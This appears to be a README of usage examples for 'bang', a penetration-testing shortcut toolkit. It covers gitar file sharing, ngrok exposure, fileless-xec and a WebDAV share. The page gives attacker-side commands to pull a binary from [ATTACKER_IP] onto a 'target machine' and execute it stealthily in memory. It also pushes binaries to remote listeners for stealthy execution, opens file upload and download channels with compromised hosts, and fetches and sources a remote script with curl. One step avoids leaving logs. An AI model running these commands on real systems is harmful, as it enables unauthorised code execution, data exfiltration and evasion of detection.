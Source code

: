 # Examples

Some examples of bang usage

## `gitar`

### Share files

Start file sharing:
```
bang.gitar $AA $AP
```
This will start a `gitar` http server and copy to your clipboard a command line to run on remote. Run it, you can now upload and download file from remote easily (without further installations [see](https://github.com/ariary/gitar/blob/main/README.md#tldr---and-listen-music)). 

#### Alternative
Launch gitar as a daemon, and kill it later when you want (=>no logs)
1. Start gitar: `bang.gitar.daemon $AA`(copy command line)
2. paste command line on remote
3. Do your stuff (`push`,`pull`, etc)
4. kill gitar: `bang.gitar.kill`

### Share files safely

Same as above + inside a container + using https for encryption

Start safe file sharing:
```
bang.gitar-safe $AA $AP
```

### Expose local file on internet

`ngrok` enable us to share local port on the internet. The idea is to start `gitar` server locally and then expose the local port on internet using `ngrok`

#### "Safe" version
***~>*** Expose local **HTTPS server** running in a **container**

1. Expose the server port on internet: `bang.expose-https 9237`
`ngrok` output the internet reachable address for your server. Note it (use `https` one preferably)
2. Start `gitar` HTTPS server in container: `bang.gitar-safe-override [NGROK_HTTPS_URL]`

If you have a browser you could now access to files on `[NGROK_HTTPS_URL]/pull`

If you have a shell you could load shortcut to upload/download file with:
```bash
curl -s [NGROK_HTTPS_URL]/alias > /tmp/alias && source /tmp/alias && rm /tmp/alias
```

#### "Unsafe" version
***~>*** Expose local **HTTP server**

1. Expose the server port on internet: `bang.expose 9237`
`ngrok` output the internet reachable address for your server. Note it (use `https` one preferably)
2. Start `gitar` HTTP server : `bang.gitar-override [NGROK_HTTPS_URL]`

If you have a browser you could now access to files on `[NGROK_HTTPS_URL]/pull`

If you have a shell you could load shortcut to upload/download file with:
```bash
curl -s [NGROK_HTTPS_URL]/alias > /tmp/alias && source /tmp/alias && rm /tmp/alias
```

*Notes: You could also use `python3 -m http.server 9237` to launch a server (only for "download file" use case)*

## `fileless-xec`

### Exec binary from a local HTTP server

This will launch an http server (to serve the local binary) and copy the `fileless-xec` command to paste on target machine:
```
bang.flx.client.cpy [ATTACKER_IP] [TARGET_PORT] [BINARY_NAME]
```
Now paste the command on target machine (to dl binary and stealthy execute it)

### Copy line to launch `fieleless-xec` stealth dropper

This will copy command line on your clipboard to launch fileless-xec on remote. (Previously, uploaded it to the remote machine)

```
bang.flxscpy
```

### Send a local file to remote `fileless-xec` to stealthy run it

This will send a local binary to a remote listening `fileless-xec`. The binary will be then executed (stealthy) on remote

```
bang.flxssend [TARGET_IP] [TARGET_PORT] [binary]
```

## Webdav server

[see](https://blog.ropnop.com/docker-for-pentesters/#example-6---serving-files-over-webdav)

This enable us to share all files of current directory trough a webdav server

```
bang.webdavhere
```

You can now access file from a remote machine (Windows) with the UNC path: `\\[ATTACKER_ADDR]@[ATTACKER_PORT]\share`

You could eventually expose server behind a internet address using `ngrok` (if you are behdin an NAT for exemple):
```
bang.expose 8080
```
Access file: `\\[NGROK_URL]@\share`
